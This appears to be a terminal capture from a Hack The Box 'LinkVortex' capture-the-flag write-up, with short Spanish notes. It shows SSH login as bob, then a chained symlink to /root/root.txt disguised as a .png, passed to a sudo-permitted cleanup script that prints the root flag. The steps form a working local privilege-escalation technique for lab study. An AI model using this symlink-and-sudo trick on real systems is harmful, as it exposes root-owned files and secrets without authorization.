 ```
   1   │ ┌──(noesholk㉿noes)-[~]
   2   │ └─$ ssh bob@linkvortex.htb                  
   3   │ The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
   4   │ ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
   5   │ This key is not known by any other names.
   6   │ Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   7   │ Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts
       │ .
   8   │ bob@linkvortex.htb's password: 
   9   │ Permission denied, please try again.
  10   │ bob@linkvortex.htb's password: 
  11   │ Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)
  12   │ 
  13   │  * Documentation:  https://help.ubuntu.com
  14   │  * Management:     https://landscape.canonical.com
  15   │  * Support:        https://ubuntu.com/pro
  16   │ 
  17   │ This system has been minimized by removing packages and content that are
  18   │ not required on a system that users do not log into.
  19   │ 
  20   │ To restore this content, you can run the 'unminimize' command.
  21   │ Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your 
       │ Internet connection or proxy settings
  22   │ 
  23   │ Last login: Fri Jan 31 04:56:47 2025 from 10.10.14.254
  24   │ bob@linkvortex:~$ ln -s /root/root.txt noes.txt
  25   │ bob@linkvortex:~$ ln -s /home/bob/noes.txt noes.png
  26   │ bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink
       │ .sh /home/bob/noespng
  27   │ [sudo] password for bob: 
  28   │ sudo: a password is required
  29   │ bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink
       │ .sh /home/bob/noes.png
  30   │ Link found [ /home/bob/noes.png ] , moving it to quarantine
  31   │ Content:
  32   │ 985d89f0eef65bed7fd5cbc730c3d193
  33   │ bob@linkvortex:~$
```
`
Cree un enlace simbólico apuntando al archivo de root: ln -s /root/root.txt noes.txt

Luego otro enlace para esconderlo: ln -s /home/bob/noes.txt noes.png 

luego ejecute un script con `sudo` que procesó el archivo sin validar si era un enlace: sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/noes.png
`

